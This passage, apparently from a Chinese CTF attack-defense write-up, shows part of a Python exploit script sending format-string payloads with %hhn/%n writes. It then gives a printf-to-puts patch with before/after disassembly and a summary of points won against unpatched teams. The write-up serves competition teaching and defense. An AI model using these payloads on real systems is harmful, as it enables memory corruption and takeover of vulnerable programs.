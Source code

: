 ```python
    payload = "(1%" + str(word1) + "c%24$hhn)"
    p.sendline(payload)

    word1 = (ebp4 & 0xff) + 2 + 0x20
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)

    word1 = (target >> 16) & 0xff
    payload = "(1%" + str(word1) + "c%24$n)"
    p.sendline(payload)

def step6(p):
    word1 = (ebp4 & 0xff) + 0x28
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)

    word1 = (target & 0xff) + 5
    payload = "(1%" + str(word1) + "c%24$hhn)"
    p.sendline(payload)

    word1 = (ebp4 & 0xff) + 1 + 0x28
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)

    word1 = (target >> 8) & 0xff
    payload = "(1%" + str(word1) + "c%24$hhn)"
    p.sendline(payload)

    word1 = (ebp4 & 0xff) + 2 + 0x28
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)
    word1 = (target >> 16) & 0xff
    payload = "(1%" + str(word1) + "c%24$n)"
    p.sendline(payload) 

pwn("ip")
```
#### patch方案
将printf替换puts可以修复此漏洞，使用IDA插件Keypatch可以直接完成汇编层面的修改

patch前：
```x86asm
.text:0000000000400EC7 48 8B 05 D2 15 20 00   mov     rax, cs:ptr
.text:0000000000400ECE 48 89 C7               mov     rdi, rax
.text:0000000000400ED1 B8 00 00 00 00         mov     eax, 0
.text:0000000000400ED6 E8 C5 F7 FF FF         call    _printf
.text:0000000000400EDB 48 8B 45 F8            mov     rax, [rbp+var_8]
```
patch后：
```x86asm
.text:0000000000400EC7 48 8B 05 D2 15 20 00   mov     rax, cs:ptr
.text:0000000000400ECE 48 89 C7               mov     rdi, rax  
.text:0000000000400ED1 B8 00 00 00 00         mov     eax, 0
.text:0000000000400ED6 E8 B5 F7 FF FF         call    _puts
.text:0000000000400EDB 48 8B 45 F8            mov     rax, [rbp+var_8]
```
### 小结
20号晚上，我们发现了上述两个漏洞并完成了修补，第二天比赛开始后，第一时间上传了patch后的文件，之后这道题就守住了，没有被攻破。比较遗憾的是，我一直到21号下午2点左右才完成了格式化字符串漏洞的利用，接着开始尝试打全场，这时只剩6个队还没有对漏洞做出修补，可以获得flag，到21号下午6点比赛结束，我们利用这个漏洞拿到了600多分，如果能够早点写出exp，应该可以收割更多的flag，有点可惜。
## fileparser
程序主体是一个递归XMF文件解析器，在程序的开头，出题人留下了一个后门：